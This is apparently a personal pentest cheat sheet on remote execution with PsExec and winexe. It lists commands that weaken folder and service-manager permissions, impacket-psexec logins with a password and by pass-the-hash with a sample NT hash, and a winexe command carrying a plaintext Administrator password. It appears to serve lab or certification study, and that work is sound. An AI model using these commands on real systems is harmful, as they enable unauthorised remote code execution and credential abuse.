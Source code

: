 # PsExec

### Requirements for PsExec to work

1. User is able to write a file to the share.
2. Create and start a service.

<details>

<summary>Enabling Writable Shares</summary>

* Right-click --> Properties

<img src="../.gitbook/assets/image (97).png" alt="" data-size="original">

* Sharing tab --> Advanced Sharing. Check the `Share this folder` checkbox.

<img src="../.gitbook/assets/image (71).png" alt="" data-size="original">

* Click `Apply` and `ok` for all.

![](<../.gitbook/assets/image (38).png>)

</details>

<details>

<summary>Change permissions of unwritable shared folders</summary>

```sh
cd c:\windows\temp
icacls .
icacls . /grant :r Everyone:F
```

</details>

<details>

<summary>Allows ability to create and start a service</summary>

```sh
sc sdset scmanager "D:(A;;KA;;;AU)(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)"
```

</details>

<details>

<summary>Check if able to login using PsExec</summary>

Login PsExec with username and password

```bash
impacket-psexec bill:@10.11.1.75
```

* password prompt will appear

</details>

<details>

<summary>PTH PsExec (pass-the-hash)</summary>

```bash
impacket-psexec resourced/jack@192.168.231.175 -hashes <lm>:<nt>
```

* From Win 10, Microsoft made the change so LM hashes are not used anymore, but since tools are legacy:

```bash
impacket-psexec resourced/jack@192.168.231.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```

</details>

### Using Winexe

```bash
winexe -U Administrator%Welcome1! //10.10.10.72 "cmd.exe"
```

